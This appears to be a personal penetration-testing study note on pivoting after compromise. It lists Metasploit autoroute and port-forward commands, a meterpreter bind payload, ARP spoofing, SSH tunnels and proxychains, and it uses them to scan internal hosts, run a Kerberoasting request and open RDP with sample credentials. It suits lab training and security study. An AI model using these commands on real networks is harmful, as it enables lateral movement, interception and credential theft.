


# 7. Pivoting
privoting throughn metasploit is dengarus

*   Pivoting is a post exploitation technique that involves utilizing a compromised host to attack other systems on the compromised host’s private internal network. 
*   After gaining access to one host, we can use the compromised host to exploit other hosts on a private internal network to which we could not access previously.

_**Port Forwarding**_

*   Port forwarding is the process of redirecting traffic from a specific port on a target system to a specific port on our system.
*   In the context of pivoting, we can forward a remote port on a previously inaccessible host to a local port on our Kali Linux system so that we can remotely interact/exploit the service running on the port.

_**Pivoting Visualized**_

_**Internal network find**_

*   Set up IP Routing and Routing Tables
    *   `ip route` - prints the routing table for the host you are on
    *   `ip route add ROUTETO via ROUTEFROM` - add a route to a new network if on a switched network and you need to pivot
*   meterpreter
    *   `ifconfig` to check different types of network interfaces like eth0, eth1 on the target pc
    *   `run autoroute -s <private network ip : 10.10.12.0/24>` - private network route add in meterpreter
    *   `run autoroute -p`
    *   `background`
*   tcp scan on private network other devices
    *   `search portscan`
*   nmap port scan need port forwarding 
    *   meterpreter (sesion 1) > `portfwd add -l <lport> -p <rport> -r <rhost>`
    *   `portftw list`
    *   `db_nmap -sS -sV -p <localport> -p localhost`
    *   `nmap -sV -p <localport> localhost`
        *   nmap -sV -p 1080 localhost
    *   search exploit
        *   `set payload windows/meterpreter/bind_tcp`

ARP Spoofing

*   echo 1 > /proc/sys/net/ipv4/ip\_forward
*   arpspoof -i tap0 -t 10.10.10.10 -r 10.10.10.11

SSH Tunneling/Port Forwarding

*   local port forwarding
*   the target host 192.168.0.100 is running a service on port 8888
*   and you want that service available on the localhost port 7777
*   `ssh -L 7777:localhost:8888 user@192.168.0.100`
*   remote port forwarding
*   you are running a service on localhost port 9999 
*   and you want that service available on the target host 192.168.0.100 port 12340
*   `ssh -R 12340:localhost:9999 user@192.168.0.100`
*   Local proxy through remote host
*   You want to route network traffic through a remote host target.host
*   so you create a local socks proxy on port 12001 and configure the SOCKS5 settings to localhost:12001
*   `ssh -C2qTnN -D 12001` [`user@target.host`](mailto:user@target.host)
*   with proxychain
    *   `ssh -f -N -D 9050 -i pivot root@10.10.10.5` 
        *   \-f - backgroound
        *   \-N - do not want to execute remote commands, it for port forwarding
        *   \-D - where do we watn to bind the port for port forwarding
    *   run nmap with port forwarding
        *   `proxychains nmap -p88 10.10.10.5`
        *   `proxychains nmap 10.10.10.5`
            *   
                
    *   Run Attacks
        *   `proxychains GetUserSPNs.py MARVEL.local/fcastle:Password1 -dc-ip <ip> -request` - Krberosting attack
    *   `proxychains xfreerdp /u:administrator /p:'Password123' /v:100.100.100.5`
    *   `proxychains firefox` - firefox run through proxychain

ProxyChain

*   `/etc/proxychains.conf` - proxy chain configuration file

Tools

*   sshttle
    *   `sudo apt install sshuttle`
    *   `sshuttle -r root@10.10.155.5  10.10.10.0/24 --ssh-cmd “ssh -i privot”`
        *   `nmap 10.10.10.225 -p88` 
*   Chisel